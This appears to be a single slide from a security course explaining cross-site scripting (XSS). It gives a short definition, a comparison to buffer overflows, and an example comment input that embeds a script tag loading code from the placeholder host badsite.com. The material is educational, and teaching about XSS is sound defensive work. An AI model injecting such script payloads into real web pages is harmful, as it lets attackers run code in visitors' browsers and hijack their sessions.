

53
# Cross-Site Scripting (XSS)
Tricking a client or server into executing scripted code by including the code in data inputs
Scripts and HTML tags are encoded as plaintext just like user inputs, so they can take over web pages similarly to the way buffer overflow attacks can take over programs

Cool<br>story.<br>KCTVBigFan<script src=http://badsite.com/xss.js></script>